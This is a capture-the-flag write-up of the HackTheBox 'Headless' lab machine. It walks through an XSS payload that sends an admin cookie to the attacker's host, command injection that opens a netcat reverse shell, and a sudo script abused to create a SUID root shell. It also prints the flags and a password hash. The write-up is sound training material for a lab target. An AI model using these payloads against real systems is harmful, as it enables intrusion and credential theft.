






# Headless - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22` and `5000`.

***User***: Found XSS while trying to inject STTI payload on the `/support` HTTP request. Stole the `is_admin` cookie using the XSS. Using the `is_admin` cookie, we accessed the `/dashboard` page. Found command injection on `/dashboard` and obtained a reverse shell as `dvir`.

***Root***: Discovered that we can run `syscheck` as root. Upon reading the `syscheck` code, we understood that we need to create a file `initdb.sh` which runs as `root`. Using this, we obtained a shell as `root`.



## Headless Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Headless]
└──╼ $ nmap -sV -sC -oA nmap/Headless 10.10.11.8
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-16 00:16 IDT
Nmap scan report for 10.10.11.8
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 900294283dab2274df0ea3b20f2bc617 (ECDSA)
|_  256 2eb90824021b609460b384a99e1a60ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 15 Jun 2024 21:17:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.93%I=7%D=6/16%Time=666E04BF%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.11\.2\r\nDate:\x20Sat,\x2015\x20Jun\x202024\x2021:17:04\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:02799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zfs;
SF:\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
SF:lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20
SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construction
SF:</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body
SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20
SF:'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20displ
SF:ay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justify-c
SF:ontent:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ali
SF:gn-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20h
SF:eight:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x200,\
SF:x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYPE\x
SF:20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\
SF:x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respons
SF:e</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version
SF:\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20
SF:code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20u
SF:nsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `5000`, we see that the following web page is hosted:



By clicking on http://10.10.11.8:5000/support we get the following web page:



If we attempt to inject the SSTI payload `{{7*7}}` into the fields as follows:
```http
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 78
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xm,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: keep-alive

fname={{7*7}}&lname={{7*7}}&email=ev%40htb.local&phone={{7*7}}&message={{7*7}}
```

We get the following response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Thu, 20 Jun 2024 20:42:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2440
Connection: close

...
<body>
    <div class="container">
        <h1>Hacking Attempt Detected</h1>
        <p>Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.</p>
        <p><strong>Client Request Information:</strong></p>
        <pre><strong>Method:</strong> POST<br><strong>URL:</strong> http://10.10.11.8:5000/support<br><strong>Headers:</strong> <strong>Host:</strong> 10.10.11.8:5000<br><strong>Content-Length:</strong> 78<br><strong>Cache-Control:</strong> max-age=0<br><strong>Upgrade-Insecure-Requests:</strong> 1<br><strong>Origin:</strong> http://10.10.11.8:5000<br><strong>Content-Type:</strong> application/x-www-form-urlencoded<br><strong>User-Agent:</strong> Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36<br><strong>Accept:</strong> text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7<br><strong>Referer:</strong> http://10.10.11.8:5000/support<br><strong>Accept-Encoding:</strong> gzip, deflate, br<br><strong>Accept-Language:</strong> en-GB,en-US;q=0.9,en;q=0.8<br><strong>Cookie:</strong> is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs<br><strong>Connection:</strong> keep-alive<br><br></pre>
    </div>
</body>
</html>

```

As observed, it logs the attempted attack and incorporates parameters from our request. We can attempt XSS using the following payload: `User-Agent: <h2>test</h2>`:
```http
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 78
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <h2>test</h2>
Accept: text/html,application/xhtml+xm,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: keep-alive

fname={{7*7}}&lname={{7*7}}&email=ev%40htb.local&phone={{7*7}}&message={{7*7}}
```

And we see our tag in the response:
```http
...
</strong> http://10.10.11.8:5000<br><strong>Content-Type:</strong> application/x-www-form-urlencoded<br><strong>User-Agent:</strong> <h2>test</h2><br><strong>
```

By using the following XXS payload `User-Agent: <script type="text/javascript">document.write("<iframe src='http://10.10.14.14:8000/"+document.cookie+"'></iframe>");</script>` we get the `is_admin` cookie:
```console
┌─[evyatar9@parrot]─[/hackthebox/Headless]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.8 - - [20/Jun/2024 23:56:04] code 404, message File not found
10.10.11.8 - - [20/Jun/2024 23:56:04] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -

```

While running `dirbuster`, we discovered the following path:
```console
┌─[evyatar9@parrot]─[/hackthebox/Headless]
└──╼ $ gobuster dir -u http://10.10.11.8:5000/  -w ./raft-medium-words.txt -t 100 -k --wildcard -o preprod.gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                ./raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2024/06/16 00:39:58 Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265] 

```

If we try to access `/dashboard` without the `is_admin` cookie, we receive the following response:
```http
GET /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xm,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: keep-alive

```

But if we use the cookie `is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0` obtained from XSS, we will access the following page:



By clicking on `Generate Report` we can see the following requset:
```http
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: keep-alive

date=2023-09-15
```

We can achieve command injection using `date=2023-09-15; ping -c1 10.10.14.14`. Let's use this technique to obtain a reverse shell with the following payload: `date=2023-09-15; nc 10.10.14.14 4242 -e /bin/sh`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Headless]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.8: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.8] 52134
python3 -c 'import pty; pty.spawn("/bin/bash")'
dvir@headless:~/app$ whoami
whoami
dvir
dvir@headless:~/app$ cat /home/dvir/user.txt
cat /home/dvir/user.txt
59fe212497a54b3e15b7a58371f31b68

```

And we get the user flag `59fe212497a54b3e15b7a58371f31b68`.

### Root

By running `sudo -l`, we can see that we have the ability to execute the following commands as `root`:
```console
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```

By examining the file located at `/usr/bin/syscheck`, we can observe the following code:
```console
dvir@headless:~/app$ cat /usr/bin/syscheck                 
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

We can see the command `/usr/bin/pgrep -x "initdb.sh"`, where the `-x` flag means "Only match processes whose names (or command lines if -f is specified) exactly match the pattern.".

According to this, we can create a bash script with our payload as follows::
```console
dvir@headless:~/app$ cat initdb.sh
cat initdb.sh
echo Start
cp /bin/bash /home/dvir/app/sbash
chmod +s /home/dvir/app/sbash
```

Now we can execute `sudo /usr/bin/syscheck` to run our `initdb.sh` script.:
```console
dvir@headless:~/app$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...
Start
dvir@headless:~/app$ ls -ltra
ls -ltra
total 1280
-rw-r--r-- 1 dvir dvir    2457 Sep  9  2023 support.html
-rw-r--r-- 1 dvir dvir    1513 Sep  9  2023 hackattempt.html
-rwxr-xr-x 1 dvir dvir      48 Sep  9  2023 report.sh
-rwxr-xr-x 1 dvir dvir    2867 Sep 10  2023 app.py
-rw-r--r-- 1 dvir dvir    2100 Sep 10  2023 dashboard.html
-rw-r--r-- 1 dvir dvir    1185 Feb  2 16:08 inspect_reports.py
-rw-r--r-- 1 dvir dvir    2896 Feb 16 23:35 index.html
drwx------ 8 dvir dvir    4096 Feb 16 23:49 ..
drwxr-xr-x 2 dvir dvir    4096 Jun 20 23:57 hacking_reports
-rwxr-xr-x 1 dvir dvir      75 Jun 21 00:54 initdb.sh
-rwsr-sr-x 1 root root 1265648 Jun 21 00:55 sbash
drwxr-xr-x 3 dvir dvir    4096 Jun 21 00:55 .

```

And we can see our SUID bash `sbash`. Let's use it.:
```console
dvir@headless:~/app$ ./sbash -p
./sbash -p
sbash-5.2# whoami
whoami
root
sbash-5.2# cat /root/root.txt
cat /root/root.txt
d3d5d4fdbf0d7073f4538f8656e75678

```

And we get the root flag `d3d5d4fdbf0d7073f4538f8656e75678`.

PDF password
```
$y$j9T$2cy/WxPggISXkBDRmZbL10$0w8yfYfo92xIpj.Qu7zcpzqjLInUcI26SaM2l0IRS.7
```
